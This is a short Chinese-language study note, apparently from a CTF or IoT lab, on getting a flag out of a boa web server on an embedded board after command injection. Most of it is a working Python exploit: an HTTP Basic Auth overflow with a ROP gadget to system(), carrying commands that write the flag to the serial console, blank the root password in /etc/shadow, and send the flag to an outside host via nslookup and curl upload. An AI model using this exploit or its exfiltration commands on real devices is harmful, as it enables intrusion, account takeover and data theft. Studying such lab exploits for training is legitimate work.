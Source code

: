 ```yaml
---
title: 数据传输泄露
updated: 2022-05-26T16:55:47.0000000+08:00
created: 2022-05-10T16:54:25.0000000+08:00
---
```


## python发包
# 命令注入
[命令注入](onenote:pwn总结.one#命令注入&section-id={07362C18-CD90-49F6-AFC3-41634DDD6CB9}&page-id={D1785F93-2578-46AF-A3D9-6F2F71EB0C72}&end&base-path=https://d.docs.live.net/8d1582069e7b0b95/文档/pwn)

找system函数的gadget
## 泄露flag
不过这里我想分享一些命令执行后获取flag个办法，即回答上面的问题，我到底要通过什么信道将flag送出来？cat flag肯定是没用的，因为boa起的sh子进程的标准输入输出你是看不到的。看看板子的实物，我们与板子有两根线相连，一根uart是串口，一根otg是网口，那flag肯定就从这两根线出来。于是对于两根线我分别到想了两种办法：
1.  串口：直接输出flag到串口，修改串口的登录密码
2.  网口：DNS，curl
最终exp如下，四种方式获取flag依次执行：

import requests

from pwn import \*

from requests.auth import \*

command = "cat /workspace/flag \> /dev/console;"

command += 'echo "root::::::::" \> /etc/shadow;'

command += "nslookup \`cat /workspace/flag\` 20.20.11.13;"

command += "curl 20.20.11.13:1111 -T /workspace/flag;"

bss_pass = 0x434F8

r6r0_sys = 0x1D2DC

username = "a"\*0x10+p32((bss_pass\<\<8)+0x11)

password = command.ljust(0x11b,"a")+p32(r6r0_sys)

requests.get('http://20.20.11.14/', auth=HTTPBasicAuth(username,password))

*来自 \<<https://xuanxuanblingbling.github.io/iot/2020/11/17/iot/>\>*

